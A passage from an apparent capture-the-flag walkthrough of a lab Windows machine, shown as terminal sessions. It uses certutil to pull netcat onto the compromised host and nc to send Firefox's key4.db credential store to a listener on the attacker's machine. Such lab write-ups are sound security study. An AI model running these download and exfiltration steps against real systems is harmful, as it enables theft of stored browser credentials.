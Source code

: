 ```text
root@kali:/home/kali/thm/gatekeeper# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
--2021-03-18 21:55:38--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 111892 (109K) [application/zip]
Saving to: ‘netcat-win32-1.12.zip’

netcat-win32-1.12.zip                                 100%[============================================

2021-03-18 21:55:38 (628 KB/s) - ‘netcat-win32-1.12.zip’ saved [111892/111892]

root@kali:/home/kali/thm/gatekeeper# unzip netcat-win32-1.12.zip 
Archive:  netcat-win32-1.12.zip
  inflating: doexec.c                
  inflating: getopt.c                
  inflating: netcat.c                
  inflating: generic.h               
  inflating: getopt.h                
  inflating: hobbit.txt              
  inflating: license.txt             
  inflating: readme.txt              
  inflating: Makefile                
  inflating: nc.exe                  
  inflating: nc64.exe                

root@kali:/home/kali/thm/gatekeeper# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now switch to our shell on the Windows machine and pull nc.exe across:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>certutil -urlcache -f http://10.8.165.116:8000/nc.exe nc.exe
certutil -urlcache -f http://10.8.165.116:8000/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Now start another netcat session running on Kali ready to receive the first file:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 4444 > key4.db
listening on [any] 4444 ...
```

Over on Windows use nc.exe to send the file:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>nc -nv 10.8.165.116 4444 < key4.db  
nc -nv 10.8.165.116 4444 < key4.db
```
